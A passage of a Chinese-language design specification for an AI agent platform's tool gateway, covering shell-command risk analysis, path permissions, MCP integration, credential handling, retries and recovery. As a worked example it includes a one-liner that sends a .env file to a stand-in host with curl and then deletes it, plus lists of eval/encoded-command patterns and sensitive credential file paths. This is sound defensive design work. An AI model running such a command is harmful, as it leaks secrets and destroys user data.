- PowerShell script block、pipeline、subexpression、invoke operator；
- cmd chaining、redirection、变量展开。

示例：

```bash
cat .env | curl -X POST --data-binary @- https://example.invalid && rm -f .env
```

不能只看到第一个 `cat` 判定为读取。分析结果至少包含敏感读取、网络外发和删除三个 Effect。

### 13.4 动态内容

以下情况无法仅靠静态 AST 得到最终命令：

```bash
$CMD "$TARGET"
eval "$SCRIPT"
sh -c "$USER_TEXT"
xargs sh -c ...
source unknown.sh
```

```powershell
Invoke-Expression $text
& $dynamicCommand
powershell -EncodedCommand ...
```

策略：

- 能解析常量则递归分析；
- 动态 executable、eval、encoded command 默认 HIGH/CRITICAL；
- 不能证明 Scope 的写操作不生成可复用 allow rule；
- untrusted/restricted 项目默认拒绝；
- 即使用户允许一次，仍在 Sandbox/Claim/changed-path 检查中约束。

### 13.5 Semantic Command

```rust
pub struct SemanticCommand {
    pub dialect: ShellDialect,
    pub executable: ExecutableIdentity,
    pub subcommand_path: Vec<String>,
    pub normalized_arity: Vec<ArgumentClass>,
    pub cwd: CanonicalPath,
    pub env_names: Vec<String>,
    pub redirections: Vec<RedirectionEffect>,
    pub nested: Vec<SemanticCommand>,
    pub effects: Vec<DeclaredEffect>,
    pub confidence: Confidence,
}
```

### 13.6 Arity 表

Arity 规则把实例参数归类，而不是简单替换所有参数：

```text
git checkout main          → git checkout <ref>
git checkout -- file.rs    → git checkout -- <path>
git push origin feature    → git push <remote> <refspec>
cargo test auth::tests     → cargo test <test-filter>
rm -rf target              → rm flags:[recursive,force] path:<project-path>
```

`git checkout <ref>` 与 `git checkout -- <path>` 权限含义不同，不能归成同一 matcher。

### 13.7 逐子命令评估与整句原子性

每个子命令独立评估风险，但执行批准应绑定完整 AST digest。不能只批准管道中的一个子命令后仍执行整句。若任一必需子命令 denied：

- 默认拒绝完整 Shell ToolCall；
- 可由 Agent 重新构造更小、可批准的请求；
- 不在 Gateway 内自动删除被拒子命令后改变用户/模型原意。

### 13.8 脚本文件

执行 `./script.sh`、`.ps1`、`.cmd` 时：

- 固定脚本 canonical path 和内容 checksum；
- 尽可能解析脚本 AST；
- 脚本变更使旧批准失效；
- 脚本引用其他本地脚本时递归建立依赖摘要；
- 无法完全解析的第三方脚本依据来源、签名、锁定版本、Sandbox 和风险处理；
- 不用文件名白名单永久批准可变脚本内容。

### 13.9 CWD 与环境

- cwd 必须规范化并在允许边界；
- `PATH` 解析结果固定 executable identity，防止同名程序替换；
- 危险环境变量（loader injection、代理、credential helper 等）单独评估；
- env secret 只在执行时注入；
- 审批摘要显示变量名和用途，不显示值。

---

## 14. 文件与路径权限

### 14.1 路径解析

复用 Workspace 的 CanonicalProjectPath 算法：

1. 识别 Project Root/Worktree；
2. 解析相对路径、`.`、`..`；
3. 拒绝越界 traversal；
4. 解析现有 symlink/junction/reparse point；
5. 不存在尾部基于最近存在祖先求真实范围；
6. 应用平台大小写和 Unicode 规则；
7. 生成 path key、scope kind 和敏感分类；
8. 同时保存安全 display path 与内部 canonical identity。

### 14.2 路径策略层

```text
Builtin protected paths
User global deny/ask/allow paths
Project policy paths
Agent delegated paths
Workflow Node write scopes
Permission request paths
Write Claim active scopes
Sandbox enforceable paths
```

实际可访问范围取交集。Tool arguments 中出现多个路径时逐个求值。

### 14.3 Project Root 外访问

需求要求越界写入需显式审批；最终产品进一步约束：

- 必须具有 `path.write_outside_root.v1`；
- Project Trust 为 trusted；
- 路径不属于 builtin hard-protected；
- 逐次 HIGH/CRITICAL 审批，默认不能保存宽泛永久规则；
- 尽可能使用 Sandbox allowlist；
- pre/post snapshot 或等价备份可用；
- approval summary 显示绝对安全路径；
- Agent delegated write_paths 不能因用户一次批准自动扩大。

### 14.4 敏感文件

默认敏感模式：

```text
.env, .env.*
*.key, *.pem, *.p12, *.pfx
credentials*, secrets*
.ssh/**, .gnupg/**
cloud/provider credential files
Apex auth/credential store
```

分类不是仅靠文件名，还可结合内容扫描、文件权限、目录语义和用户规则。默认：

- 普通 Agent 不读取；
- UI 不预览完整内容；
- ToolResult 自动 secret scan/redaction；
- 外发到 Provider/MCP/网络需要独立 egress capability；
- 写入/删除需要更高风险确认；
- Apex CredentialStore 永不作为普通文件 Tool 暴露。

### 14.5 读取权限与数据外发

Read 本身和把 Read 内容发送到 Provider/MCP 是两个动作。Context Builder、MCP/Network Tool 必须执行 data egress policy：

```text
may_read_locally != may_send_to_provider != may_send_to_mcp != may_send_to_network
```

### 14.6 Glob 策略

- 权限 matcher 使用受限 glob 方言；
- 保存 parser/version；
- `**` 等宽范围在 UI 显示估算影响；
- 无法证明目标集合时提升风险；
- 执行时逐个实际路径再校验；
- 新出现的 symlink 不得借 glob 绕过根边界。

### 14.7 文件 Tool 原子性

Write/Edit/ApplyPatch：

- preflight 固定 baseline checksum；
- 使用 temp file + fsync + atomic rename（平台允许时）；
- 保留 metadata 策略；
- rename 前再次校验 Lease/Cancel；
- 结果提交前计算 post checksum；
- baseline 冲突返回 `WORKSPACE_BASELINE_CHANGED`；
- 部分写入必须记录真实状态，不能返回普通 failed 掩盖。

---

## 15. Write Claim、Spec 与 Snapshot Gate

### 15.1 授权顺序

写操作推荐顺序：

```text
schema/path/shell normalization
→ capability/trust/hard policy
→ permission decision
→ spec/workflow write scope
→ acquire Write Claim
→ PreTool rules
→ pre snapshot
→ operation intent/dispatch
```

Permission 可以先于 Claim，以免持有 Claim 等用户；批准后获取 Claim 时必须重新验证 argument digest、权限规则、Spec、baseline 和 cancellation。

### 15.2 Claim 等待

Claim 冲突产生 `awaiting_claim`，不是新 PermissionRequest。等待期间：

- 不启动 Adapter；
- 不占 Process/Provider slot；
- 订阅 claim released/revoked；
- 超时进入 Block 或返回资源冲突；
- 用户批准可在 TTL 内保留，但任何参数/路径/策略变化都需重评。

### 15.3 Spec Gate

写工具必须绑定当前 Spec/Tasks Revision，除非用户通过合法 SkipSpec/例外流程。Tool Gateway 不解析自然语言“用户已经同意”，只读取 Core 的批准事实。

### 15.4 Snapshot 策略

| 风险/工具 | pre snapshot | post snapshot |
|---|---|---|
| 普通 Read | 否 | 否 |
| 单文件 Edit | 文件 checksum/内容引用 | 是 |
| 批量 Write/Delete | 必须 | 必须 |
| Shell 未知写范围 | 隔离工作区或宽范围 snapshot | 必须 |
| Git index/history | Git/index baseline | 是 |
| Restore/ApplyPatch | 必须 | 必须 |
| 外部远端操作 | 本地 snapshot 不足，依赖 Adapter reconcile/compensation | 结果收据 |

Snapshot 不代表所有操作可回滚；审批摘要必须区分 local reversible 与 external irreversible。

---

## 16. PreTool / PostTool Rules 与 Hook

### 16.1 运行点

```text
PreToolPolicy       纯策略，决定 deny/ask/allow/block
PreToolHook         受限扩展，可返回诊断/收紧参数建议
PreSnapshot
AdapterExecution
PostSnapshot/Diff
PostToolRuleCheck   规则、lint、安全检查
PostToolHook        观测/诊断，不可隐藏实际结果
Stop/CompletionHook 在 Run/Node gate 中处理
```

### 16.2 Hook 权限

Hook/Plugin：

- 必须有版本化 manifest；
- 声明输入、输出 schema、timeout 和 capability；
- 默认无网络、无 secret、无写权限；
- 不能授予 Permission、Trust 或 Capability；
- 不能修改 ToolCall argument 后沿用旧 digest/approval；
- 若提出参数变更，必须创建新 canonical request 并重新求值；
- 输出标记 source/taint。

### 16.3 Hook 结果

```rust
pub enum HookVerdict {
    Continue { diagnostics: Vec<Diagnostic> },
    Deny { code: String, diagnostic: Diagnostic },
    Ask { reason: String, risk_delta: RiskDelta },
    Block { reason: BlockReason },
    ProposeRewrite { new_arguments: ContentRef },
}
```

`ProposeRewrite` 不自动执行。Runtime/Agent 选择接受后创建新 ToolCall 或新 revision。

### 16.4 Timeout/Failure

- 安全关键 PreTool hook 超时：fail closed；
- 纯观测 hook 超时：记录 warning，可继续；
- PostTool checker 崩溃与 violations 分开；
- required PostTool checker 无结果时 Node 不得完成；
- Hook 失败不得把已发生 Tool 副作用伪装成未执行。

### 16.5 PostTool 状态

工具本身成功但规则发现阻断问题：

```text
ToolCall = succeeded_with_violations
RuleCheck = violations_found
Run/Node = blocked or continue to repair flow
```

修复由显式 Repair Agent/Run 完成，不允许 checker 静默改文件。

---

## 17. Execution Envelope 与 Adapter 契约

### 17.1 AuthorizedToolExecution

```rust
pub struct AuthorizedToolExecution {
    pub tool_call_id: ToolCallId,
    pub operation_id: OperationId,
    pub execution_attempt: u32,
    pub tool: ToolRevisionRef,
    pub canonical_arguments: ProtectedContentRef,
    pub public_arguments_digest: Digest,
    pub authorization_grant: AuthorizationGrantRef,
    pub path_scopes: Vec<CanonicalPathScope>,
    pub write_claims: Vec<WriteClaimRef>,
    pub pre_snapshot: Option<SnapshotRef>,
    pub credential_plan: CredentialInjectionPlan,
    pub sandbox_profile: SandboxProfileRef,
    pub lease: ExecutionLease,
    pub deadlines: ExecutionDeadlines,
    pub output_policy: OutputPolicy,
}
```

### 17.2 Adapter 规则

Adapter 必须：

- 验证信封签名/内部来源和 Fence Token；
- 不接受普通客户端直接调用；
- 不持久化 PermissionRule；
- 不扩展参数、路径、环境或网络目标；
- 在发起外部副作用前报告 started receipt；
- 支持有界输出和 cancellation；
- 返回结构化 effect observation；
- 对支持幂等的系统使用 operation idempotency key；
- 提供 reconcile 能力声明。

### 17.3 Started Receipt

```rust
pub struct ToolStartedReceipt {
    pub operation_id: OperationId,
    pub execution_attempt: u32,
    pub adapter_instance_id: AdapterInstanceId,
    pub external_ref: Option<ProtectedExternalRef>,
    pub process_identity: Option<ProcessIdentity>,
    pub started_effect_phase: EffectPhase,
    pub fence_token: SecretToken,
}
```

只有 Started Receipt 提交后 ToolCall 才进入 `executing`。若 Adapter 在 receipt 前崩溃，Recovery 仍需根据操作类型判断是否可能已经产生副作用。

### 17.4 结果信封

```rust
pub struct RawToolObservation {
    pub operation_id: OperationId,
    pub execution_attempt: u32,
    pub adapter_instance_id: AdapterInstanceId,
    pub outcome: AdapterOutcome,
    pub stdout: OutputRef,
    pub stderr: OutputRef,
    pub structured_result: Option<ContentRef>,
    pub changed_resources: Vec<ResourceChangeObservation>,
    pub external_effect_state: ExternalEffectState,
    pub reconcile_token: Option<ProtectedContentRef>,
    pub timing: ExecutionTiming,
    pub fence_token: SecretToken,
}
```

Adapter 的 `success` 只是观察；Core 还要执行 output validation、changed path、post snapshot 和 PostTool Rule。

---

## 18. Process Supervisor

### 18.1 进程启动

所有 Shell、测试、Hook、Skill script、stdio MCP 均通过 Process Supervisor。启动参数必须使用结构化形式：

```rust
pub struct ProcessLaunchSpec {
    pub executable: VerifiedExecutable,
    pub argv: Vec<ProtectedArg>,
    pub cwd: CanonicalPath,
    pub env: SanitizedEnvironment,
    pub stdin: StdinPolicy,
    pub stdout: OutputCapturePolicy,
    pub stderr: OutputCapturePolicy,
    pub sandbox: SandboxProfileRef,
    pub resource_limits: ProcessResourceLimits,
    pub process_tree_policy: ProcessTreePolicy,
}
```

Shell Tool 的 command text 由已解析/批准的 AST 对应；内部执行优先 direct exec，禁止拼接字符串后重新交给另一 Shell。

### 18.2 跨平台进程树

- Windows：Job Object，必要时限制 child process、CPU、memory，并在取消时终止整个 Job；
- Unix：process group/session、parent-death signal（可用时）、递归清理；
- stdio MCP：server 与其子孙进程属于独立监督树；
- 不能只 kill 顶层 PID；
- ProcessIdentity 防止 PID reuse。

### 18.3 输出管理

stdout/stderr 采用：

- 有界内存 ring buffer；
- 超出阈值写临时 spool/blob；
- 流式 UI delta 限频和脱敏；
- 最终保存 head/tail、总字节数、截断位置和完整 BlobRef（策略允许时）；
- 禁止子进程输出阻塞导致 deadlock；
- 二进制输出不按 UTF-8 强转，记录 encoding/content type。

### 18.4 资源限制

- wall clock soft/hard timeout；
- CPU time；
- process/thread count；
- memory；
- output bytes；
- open files/handles（平台可用时）；
- network Sandbox；
- child recursion；
- temporary disk。

达到限制产生明确 result class，不笼统返回 exit code 1。

### 18.5 取消

```text
persist cancel intent
→ close stdin / send graceful signal
→ adapter-specific cancel
→ wait grace
→ terminate process group/job
→ inspect descendants and file changes
→ submit reconciled result
```

Process exit 不证明远端副作用未发生，例如 CLI 已发送 HTTP 请求后被终止。

---

## 19. MCP Gateway

### 19.1 发现与配置

支持：

- 项目级 `apex/mcp.json`；
- 用户级 `~/apex/mcp.json`；
- 兼容导入 Claude Desktop 等已知格式；
- 手动注册远程 HTTP/SSE MCP。

发现只是生成候选配置。启用、Trust、Credential 和 Capability 必须由 Apex 独立决定，不能继承外部客户端中的宽泛权限。

### 19.2 安全配置

数据库只保存 `safe_config_json` 和 config digest：

- command/executable 可审计；
- args 脱敏；
- env 只保存变量名和 credential ref；
- token/header 在 CredentialStore；
- remote URL 规范化；
- TLS/证书策略；
- Project/User scope；
- enabled revision。

### 19.3 连接状态

```text
discovered → disabled | connecting → connected
                         ├→ degraded
                         ├→ disconnected → reconnecting
                         └→ error
```

连接状态不等于工具调用状态。自动重连使用退避和熔断，不能让 pending ToolCall 无限占资源。

### 19.4 Tool discovery

每个 MCP Tool 保存：

- server identity/config revision；
- tool name；
- safe description；
- input/output schema digest；
- discovered/retired time；
- capability/risk override；
- schema sanitation diagnostics。

MCP server 断线重连后 schema 变化产生新 capability revision；旧 ToolCall 不能用新 schema 执行。

### 19.5 MCP 调用

MCP 调用仍创建普通 ToolCall：

```text
mcp__server__tool
→ Gateway schema/risk/permission
→ operation intent
→ MCP adapter call
→ response normalization/taint/redaction
→ postflight
```

MCP server 自称“只读”仅作为低信任声明，Apex 可设置 risk floor，不能据此跳过审批。

### 19.6 Timeout 与重试

需求默认调用 timeout 30 秒，最终值由 ToolDefinition/项目策略配置。重试条件：

- 连接在发送前失败：可重连后重派；
- Server 支持幂等键且同一 operation ID：可按协议重试；
- 已发送但无结果：先 reconcile；
- 无 reconcile 能力：进入 unknown，不自动重试。

### 19.7 MCP taint

所有 MCP description/resource/result 默认标记：

```text
source = external_mcp
trust = untrusted_content
can_authorize = false
can_override_prompt = false
```

结果可供模型参考，但不能触发权限决定、修改 Tool Catalog 或成为 system instruction。

### 19.8 热插拔

禁用 Server：

1. 阻止新调用；
2. 标记 Tool revisions retired；
3. 对 active calls 按配置 drain/cancel；
4. 关闭 transport/process tree；
5. 对未知 call 对账；
6. 不删除历史 ToolCall/McpCall。

---

## 20. Credential Broker 与秘密管理

### 20.1 原则

- Secret 不进入普通 SQLite JSON、Domain Event、日志、trace、Prompt 或 approval view；
- 数据库存 credential metadata/reference，不存可直接使用的明文；
- Secret 只在最后执行边界按最小 Scope、最短时间注入；
- Adapter 不得把 Secret 回显到结果；
- Result Normalizer 再执行 secret scan 作为兜底。

### 20.2 CredentialRef

```rust
pub struct CredentialRef {
    pub credential_id: CredentialId,
    pub kind: CredentialKind,
    pub scope: CredentialScope,
    pub version: CredentialVersion,
    pub provider: CredentialProvider,
    pub allowed_tools: Vec<ToolMatcher>,
    pub allowed_destinations: Vec<DestinationMatcher>,
    pub expires_at: Option<Timestamp>,
}
```

### 20.3 注入方式

优先顺序：

1. OS keychain/credential API handle；
2. 受控 stdin/pipe；
3. 临时文件，严格 ACL，执行后安全清理；
4. 环境变量，仅在子进程私有环境；
5. command argument 最后选择，因为容易进入进程列表和日志。

### 20.4 Secret 使用审批

Approval 显示“将使用 credential X 访问 destination Y”，不显示值。Credential Capability 与 Network Destination 必须同时满足。项目文件中的指令不能选择任意用户凭据。

### 20.5 Redaction

组合：

- 已知 secret 精确匹配；
- 编码/常见变体匹配；
- key/token/private key pattern；
- structured field policy；
- entropy heuristic（仅辅助，避免大量误删）；
- Provider/MCP adapter 特定敏感字段。

Redaction 结果记录规则 revision 和命中计数，但不记录原 secret。

---

## 21. ToolResult 规范化与 Taint

### 21.1 Canonical ToolResult

```rust
pub struct CanonicalToolResult {
    pub tool_call_id: ToolCallId,
    pub operation_id: OperationId,
    pub status: ToolResultStatus,
    pub summary: SafeText,
    pub structured_content: Option<ContentRef>,
    pub stdout: OutputSummary,
    pub stderr: OutputSummary,
    pub exit: Option<NormalizedExit>,
    pub changed_resources: Vec<ResourceChange>,
    pub pre_snapshot: Option<SnapshotRef>,
    pub post_snapshot: Option<SnapshotRef>,
    pub external_effect_state: ExternalEffectState,
    pub taint: TaintSet,
    pub redaction: RedactionSummary,
    pub truncation: TruncationMetadata,
    pub diagnostics: Vec<Diagnostic>,
    pub duration: Duration,
}
```

### 21.2 Result 状态

```text
succeeded
succeeded_with_violations
failed_known
cancelled_reconciled
interrupted_unknown
reconcile_required
```

Provider 看到的是规范化结果，不直接看到 Adapter 内部错误对象、secret 或无限输出。

### 21.3 Taint 类别

```text
repository_content
external_web
external_mcp
shell_output
process_stderr
user_generated_file
secret_adjacent
binary_unparsed
untrusted_instruction
```

Taint 可以传播：由 tainted 输入生成的摘要仍保留来源链。Taint 不是“内容一定恶意”，而是限制它可影响的控制平面。

### 21.4 控制面隔离

ToolResult 不得直接：

- 批准 Permission；
- 修改 Project Trust；
- 改变 Capability；
- 写入 system prompt；
- 注册新 Tool；
- 执行其包含的命令；
- 宣布 Rule/Verification 通过。

Agent 如需根据结果执行新动作，必须发起新的 ToolCall。

### 21.5 Changed Resource 验证

Gateway 将 Adapter 声明、Snapshot diff 和文件系统观测合并：

- 声明与实际一致：继续；
- 实际多写：`WRITE_CLAIM_VIOLATION`，阻断；
- 变更无法完整观测：提高 external effect state，必要时 unknown；
- 外部资源变化使用 Adapter receipt/reconcile；
- 结果摘要不能隐藏部分成功。

---

## 22. 幂等、执行重试与副作用分类

### 22.1 IdempotencyClass

```rust
pub enum IdempotencyClass {
    Pure,
    ReadOnlyStable,
    NaturallyIdempotent,
    IdempotentWithKey,
    Compensatable,
    NonIdempotent,
    Unknown,
}
```

### 22.2 ReconcileCapability

```text
NONE            无法查询结果
PROCESS_LOCAL   可检查本地进程和文件
QUERY_BY_ID     可按 operation/external ID 查询
IDEMPOTENCY_KEY 可安全重派同一键
TRANSACTIONAL   外部系统有提交/回滚协议
COMPENSATABLE   有显式补偿操作
```

### 22.3 重试判定

```text
if proven not started:
    create new execution attempt
elif succeeded result already committed:
    return existing result
elif adapter supports same idempotency key:
    retry same logical operation with new execution attempt
elif external query proves completed:
    record reconciled result
elif external query proves failed/no effect:
    finalize known failure or retry by policy
else:
    mark unknown/reconcile_required and block
```

### 22.4 常见工具分类

| 工具 | 默认分类 | 崩溃后策略 |
|---|---|---|
| Read/Glob/Grep | ReadOnlyStable | 可重试，仍检查 baseline/敏感策略 |
| 原子文件 Write | IdempotentWithKey/Compensatable | 比较目标 checksum |
| ApplyPatch | Compensatable | pre/post snapshot + patch digest |
| 普通测试命令 | NonIdempotent（文件副作用未知） | 检查进程和 workspace |
| Git commit | QueryById | 查 HEAD/commit/tree |
| Git push | QueryById，远端副作用 | 查 remote ref，禁止盲重推 |
| HTTP GET | 依语义 | 不能仅凭 method 假设无副作用 |
| HTTP mutation | IdempotencyKey/Unknown | 查 request key/status |
| MCP unknown tool | Unknown | 默认阻断自动重试 |
| SpawnAgent | Core idempotent command | command dedup 返回同一 Agent |

### 22.5 Provider retry 边界

ToolResult 已提交后，Provider 继续推理必须读取该唯一结果。Provider 断线或模型重试不能创建同参数第二次 ToolCall，除非 Agent 明确提出新的逻辑调用并经过完整 Gateway。

---

## 23. 取消、超时与迟到结果

### 23.1 取消协议

```text
persist tool.cancel_requested
→ prevent new execution attempts
→ signal Adapter/Process/MCP
→ wait bounded grace
→ force local termination if needed
→ reconcile files/process/external system
→ post snapshot/diff
→ finalize cancelled or interrupted/reconcile_required
```

### 23.2 终态判断

- `cancelled`：证明未产生副作用，或所有副作用已知且执行已停止；
- `failed`：Adapter 明确失败，副作用状态已知；
- `interrupted`：执行被打断且仍有未知影响；
- `reconcile_required`：需要持续/人工对账的非普通终态阶段；
- `succeeded`：Adapter 成功且 postflight 通过；
- `succeeded_with_violations`：副作用成功但规则阻断。

### 23.3 Timeout

Timeout 是触发取消的原因，不自动等于 failed。远端 MCP/HTTP 超时后可能已成功；Shell timeout 后可能已写文件。必须执行同一对账协议。

### 23.4 迟到结果

接收结果时检查：

- operation/tool call ID；
- execution attempt；
- adapter instance；
- Lease version/Fence Token；
- expected aggregate version；
- payload digest。

旧 Fence 结果仅进入审计，不能改变事实。若迟到结果揭示先前 unknown 操作已成功，Recovery 可通过专用 reconcile command 补充外部事实，但不能把已终结的 Run 随意改回 completed；应产生后续诊断/补偿流程。

---

## 24. Recovery Reconciler

### 24.1 恢复扫描

启动时读取：

- nonterminal ToolCalls；
- Operation Journal `leased/running/interrupted/unknown/compensating`；
- active ProcessIdentity；
- MCP calls；
- pre/post snapshot/materialization intents；
- pending PermissionRequests；
- active/suspect Write Claims；
- Credential injection cleanup receipts。

### 24.2 分类矩阵

| 状态/证据 | 处理 |
|---|---|
| intent，未 dispatch | 安全取消或重新准入 |
| leased，无 started receipt | 检查 Adapter；证明未启动后可重试 |
| executing，本地进程活跃 | Fence/重新附着/取消 |
| executing，进程消失，无变更 | interrupted known-no-effect |
| executing，进程消失，有变更 | 保存 post snapshot，按部分成功处理 |
| MCP sent，支持 query | 调用 reconcile |
| MCP sent，不支持 query | unknown |
| 文件目标 checksum 等于预期结果 | 补录 succeeded 候选并运行 postflight |
| Permission pending | 恢复 pending 或按 TTL expired |
| preflight 完成，未 dispatch | 释放/重用 snapshot 和 claim |
| credential temp file 残留 | 高优先级安全清理并审计 |

### 24.3 Reconcile Command 权限

只有 Recovery Actor 或授权 Adapter 可提交 reconcile 观察；最终状态仍由 Core 决定。用户人工确认外部结果时必须明确选择：

- 已执行成功；
- 未执行；
- 已执行失败/部分成功；
- 保持未知；
- 创建补偿操作。

人工确认保存 Actor、证据和风险提示，不伪造成 Adapter 机器证明。

### 24.4 补偿

Compensation 是新的 Operation：

- 关联 original operation；
- 单独授权和风险评估；
- 可失败或未知；
- 不删除原成功事实；
- 完成后 original operation 可标记 compensated，但不是“从未发生”。

---

## 25. 审计、事件与投影

### 25.1 权威事件

```text
tool.call_requested
tool.call_validated
tool.call_denied
tool.call_awaiting_permission
tool.call_awaiting_claim
tool.call_preflight_started
tool.call_started
tool.call_cancel_requested
tool.call_finished
tool.call_interrupted
tool.call_reconcile_required
tool.files_changed

permission.requested
permission.decided
permission.expired
permission.cancelled
permission.rule_saved
permission.rule_revoked

project.trust_changed
risk.assessed
hard_policy.matched
credential.use_requested
credential.injected
credential.cleanup_finished

mcp.server_discovered
mcp.server_connected
mcp.server_disconnected
mcp.tool_revision_discovered
mcp.call_started
mcp.call_finished
mcp.call_reconcile_required

hook.started
hook.finished
hook.failed
rule.check_started
rule.passed
rule.violation_found
rule.checker_failed
```

高频 stdout delta/进程输出不逐条写 Domain Event；使用受限实时通道和 Blob chunk。

### 25.2 审计字段

每次 Permission/Tool 至少能关联：

```text
project/session/run/turn/agent
workflow/node/attempt
actor/client/auth context
correlation/causation/command/operation IDs
tool/schema/analyzer/adapter revisions
argument/path digests
capability/trust/policy/rule revisions
risk factors
permission decision and rule
claim/snapshot refs
process/MCP external refs
result/effect/reconcile state
```

### 25.3 安全日志

普通日志禁止：

- 原始 secret；
- 完整敏感 arguments；
- Authorization header；
- 私钥/环境变量值；
- Fence Token；
- 未脱敏 MCP result；
- 完整 stdout/stderr（除安全 Blob）。

使用稳定安全摘要和 ContentRef。

### 25.4 UI 面板

#### Tool Timeline

显示每个 ToolCall 的阶段、等待原因、耗时、风险、权限、变更和结果。

#### Approval Center

显示强一致 pending approvals、argument digest、服务端摘要、允许决定和过期时间。多端首个决定获胜。

#### Permission Rules

显示来源、scope、semantic matcher、风险上限、TTL、命中次数和撤销入口。

#### MCP Panel

显示 Server/Tool revision、连接、调用耗时、错误、重连与 taint。

#### Security/Recovery Center

显示 unknown operations、残留进程、Claim violation、secret redaction、hard deny 和待补偿项。

### 25.5 Explain API

建议提供：

```text
ExplainToolDecision(tool_call_id)
SimulatePermission(request, no side effect)
ExplainPermissionRule(rule_id)
GetOperationReconcileStatus(operation_id)
```

模拟接口只返回当前策略的假设结论，不创建授权，也不能作为执行凭据。

---

## 26. API 补充建议

现有 API 已定义 `RequestToolCall`、`DecidePermission`、`SavePermissionRule`、`RevokePermissionRule`、RuleCheck。最终产品建议补充：

```proto
service ToolQueryService {
  rpc GetToolCall(GetToolCallRequest) returns (ToolCallView);
  rpc ExplainToolDecision(ExplainToolDecisionRequest) returns (ToolDecisionExplanation);
  rpc GetOperationStatus(GetOperationStatusRequest) returns (OperationStatusView);
}

service ToolRecoveryCommandService {
  rpc RequestToolCancellation(RequestToolCancellationRequest) returns (CommandResponse);
  rpc ReconcileToolOperation(ReconcileToolOperationRequest) returns (CommandResponse);
  rpc ConfirmExternalOperation(ConfirmExternalOperationRequest) returns (CommandResponse);
  rpc CreateCompensationOperation(CreateCompensationOperationRequest) returns (CommandResponse);
}

service ProjectTrustCommandService {
  rpc TrustProject(TrustProjectRequest) returns (CommandResponse);
  rpc RestrictProject(RestrictProjectRequest) returns (CommandResponse);
  rpc RevokeProjectTrust(RevokeProjectTrustRequest) returns (CommandResponse);
}
```

### 26.1 Internal Execute 接口

内部 `ExecuteToolCall` 必须要求：

- Runtime/Worker capability；
- causation event；
- operation ID；
- expected ToolCall version；
- current Lease/Fence；
- AuthorizationGrant reference；
- exact arguments digest。

不得提供通用公共 `/execute-tool` 调试后门。

### 26.2 Decision 请求

`DecidePermissionRequest` 建议增加：

- expected permission version；
- auth freshness/reauth proof（critical）；
- displayed approval summary digest；
- selected scope/TTL；
- candidate rule digest。

这样可以证明用户决定针对其看到的摘要版本。

### 26.3 Query 脱敏

ToolCall Query 根据 Actor capability 返回不同 redaction level。默认 UI 只获得：

- safe arguments；
- approval summary；
- path display；
- output summary；
- Blob 下载 capability（如有）。

---

## 27. Rust 模块设计

### 27.1 crate 划分

```text
crates/
├─ apex-tool-gateway
│  ├─ registry
│  ├─ normalize
│  ├─ policy
│  ├─ risk
│  ├─ permission
│  ├─ preflight
│  ├─ dispatch
│  ├─ result
│  └─ reconcile
├─ apex-capability
├─ apex-permission
├─ apex-shell-analysis
├─ apex-workspace
├─ apex-process
├─ apex-mcp
├─ apex-credential
├─ apex-rules
├─ apex-domain
├─ apex-application
└─ apex-storage
```

### 27.2 核心 Trait

```rust
pub trait ToolRegistry {
    fn resolve(&self, name: &ToolName, revision: ToolRevision)
        -> Result<ToolDefinition, ToolRegistryError>;
    fn catalog_for(&self, context: CatalogContext) -> ToolCatalog;
}

pub trait ArgumentNormalizer {
    fn normalize(&self, tool: &ToolDefinition, raw: ContentRef)
        -> Result<NormalizedToolArguments, NormalizeError>;
}

pub trait SemanticAnalyzer {
    fn analyze(&self, tool: &ToolDefinition, args: &NormalizedToolArguments)
        -> Result<SemanticAnalysis, AnalysisError>;
}

pub trait PermissionPolicyEngine {
    fn evaluate(&self, input: PolicyEvaluationInput)
        -> Result<PolicyDecision, PolicyError>;
}

#[async_trait]
pub trait ToolAdapter {
    async fn execute(&self, request: AuthorizedToolExecution)
        -> Result<ToolExecutionHandle, AdapterError>;
    async fn cancel(&self, handle: ToolExecutionHandleRef)
        -> Result<CancelAck, AdapterError>;
    async fn reconcile(&self, request: ReconcileRequest)
        -> Result<ReconcileObservation, AdapterError>;
}

pub trait ResultNormalizer {
    fn normalize(&self, observation: RawToolObservation, policy: OutputPolicy)
        -> Result<CanonicalToolResultDraft, ResultNormalizeError>;
}
```

### 27.3 纯函数与 I/O 分离

Schema、canonicalization、AST analysis、risk 和 permission matching 尽量是纯函数，输入固定 revision，便于属性测试和审计重算。数据库、Credential、进程和 MCP I/O 通过端口隔离。

### 27.4 Policy Snapshot

一次评估使用不可变 `PolicyEvaluationSnapshot`：

```rust
pub struct PolicyEvaluationSnapshot {
    pub capability_revision: u64,
    pub trust_revision: u64,
    pub permission_rules_revision: u64,
    pub hard_policy_revision: u64,
    pub spec_revision: u64,
    pub tool_catalog_revision: u64,
    pub shell_analyzer_revision: u64,
    pub sensitive_path_policy_revision: u64,
}
```

授权后、dispatch 前若关键 revision 变化，重新评估。

---

## 28. 关键事务边界

### 28.1 Request/Validation Transaction

原子提交：

- ToolCall requested/validating；
- Operation intent；
- normalized arguments ref/digest；
- semantic/risk refs；
- immediate deny 或 PermissionRequest；
- domain events/outbox。

长 AST 分析可在事务外先作为纯计算完成，但提交时必须重新验证 Tool/Policy revision。

### 28.2 Permission Decision Transaction

原子提交：

- pending/version/digest 检查；
- qualified User Actor 检查；
- terminal decision；
- optional PermissionRule revision；
- ToolCall 后继状态；
- permission.decided event；
- Runtime wakeup outbox。

### 28.3 Execution Admission Transaction

原子提交：

- 再验证授权快照；
- Write Claim；
- preflight result；
- pre snapshot ref；
- Operation lease/fence；
- execution attempt；
- execution outbox。

### 28.4 Result Commit Transaction

原子提交：

- Fence/version/attempt 检查；
- Raw observation ref；
- canonical result；
- post snapshot/changed resources；
- external effect state；
- ToolCall/Operation 状态；
- claim release/reconcile（**仅当 PostTool 检查已完成**，见下）；
- events；
- Agent Runtime wakeup。

PostTool checker 是长 I/O 时，可先提交 Tool 外部结果，再单独运行 check；最终 Tool/Run projection 必须清晰显示"副作用成功，验证待定"，不能延长一个数据库事务等待 checker。

**此时 Write Claim 不得随结果提交一并释放。** 校验期间 claim 必须继续持有，直到 PostTool rule check 与 post snapshot 全部完成——否则在"副作用已提交、验证尚未完成"的窗口内，另一个 Agent 可获得同一路径的 claim 并写入，导致 checker 校验的内容与 Snapshot 记录的内容不一致，修复 Run 也将基于错误基线。Claim 的释放顺序固定为：

```text
external effect commit
  → post snapshot
  → PostTool rule check 完成（或明确标记为 deferred 并保持 claim）
  → claim release
```

若因 checker 长时间不返回而需提前释放，必须将 claim 转为 `suspect` 并记录 `deferred_verification`，由 Gate 决定 Node 能否完成；不得静默释放。

